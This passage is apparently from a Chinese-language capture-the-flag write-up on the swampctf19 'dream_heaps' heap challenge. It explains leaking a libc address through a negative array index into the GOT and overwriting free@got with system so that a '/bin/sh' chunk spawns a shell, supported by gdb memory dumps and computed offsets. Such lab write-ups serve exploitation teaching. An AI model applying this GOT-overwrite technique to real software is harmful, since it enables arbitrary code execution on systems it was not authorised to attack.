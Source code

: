 ## 攻击方法

### 0x1 泄露libc基地址

我们知道可以通过read_dream结合负偏移量打印任意地址里的内容，但具体打印什么地址的内容呢？最好是got表中的地址，这样printf("%s")就会输出某个函数真实地址

这里我们通过gdb中的`search-pattern 0x00000`尝试查找`0x602020 (put@got)` 

```assembly
gef➤  search-pattern 0x602020
[+] Searching '\x20\x20\x60' in memory
[+] In 'nightmare/11-index/swampctf19_dreamheaps/dream_heaps'(0x400000-0x401000), permission=r-x
  0x400538 - 0x40053c  →   "\x20\x20\x60[...]" 
gef➤  x/10gx 0x400538
0x400538:	0x0000000000602020	0x0000000200000007
0x400548:	0x0000000000000000	0x0000000000602028
0x400558:	0x0000000300000007	0x0000000000000000
0x400568:	0x0000000000602030	0x0000000400000007
0x400578:	0x0000000000000000	0x0000000000602038
```

发现`0x400538`刚好有，那么我们应该从`HEAP_PTRS(0x6020a0)`偏移到这个位置       

 `(0x6020a0-0x400538) // 8 == 263021` 由此当我们输入下标为`-263021`时即可输出puts的真实地址

### 0x2 改写got表

改写比较好的选择就是free的真实地址，只在delete的时候被用到，只要堆的内容是/bin/sh改写成system真实地址之后就可以直接执行

#### 尝试一

通过和0x1中同样方法可以知道下标-263024能拿到free@got的地址，首先就想着能不能通过edt直接改，但是edt还要拿一个size，由于HEAP_PTRS和SIZES相差8个qword即64个字节，偏移之后同样也是差64个字节，可以看到size为0，所以写不了

```assembly
gef➤  search-pattern 0x602020
0x400520 - 0x40052c
gef➤  x/10gx 0x400520
0x400520:	[HEAP_PTRS-263024]➤	0x0000000000602018 	0x0000000100000007
0x400530:	0x0000000000000000	0x0000000000602020
0x400540:	0x0000000200000007	0x0000000000000000
0x400550:	0x0000000000602028	0x0000000300000007
0x400560:	[SIZES-263024]➤	0x0000000000000000	0x0000000000602030
0x400570:	0x0000000400000007	0x0000000000000000
```

#### 最后

因为new_dream创建超过8后就会覆盖SIZES数组，因此SIZES内容可控，同时也可以作为HEAP_PTRS中的指针；因此可以写入free@got 0x602018，经尝试后写入SIZES[18]即为HEAP_PTRS[17]，对应大小即SIZES[17]   理想情况即为：

```assembly
gef➤  sq 0x00000000006020A0
0x6020a0 <HEAP_PTRS>:	0x0000000000b74270	0x0000000000b74290
0x6020b0 <HEAP_PTRS+16>:	0x0000000000b742b0	0x0000000000b742d0
0x6020c0 <HEAP_PTRS+32>:	0x0000000000b742f0	0x0000000000b74310
0x6020d0 <HEAP_PTRS+48>:	0x0000000000b74330	0x0000000000b74350
0x6020e0 <SIZES>:	0x0000000000b74370	0x0000000000b74390
0x6020f0 <SIZES+16>:	0x0000000000b743b0	0x0000000000b743d0
0x602100:	0x0000000000b743f0	0x0000000000b74410
0x602110:	0x0000000000b74430	0x0000001000b74450
0x602120:	0x00000010[size➤]00000010	0x0000000000602018	# here
0x602130:	0x00007f8c121fd010	0x0000000000000000
```
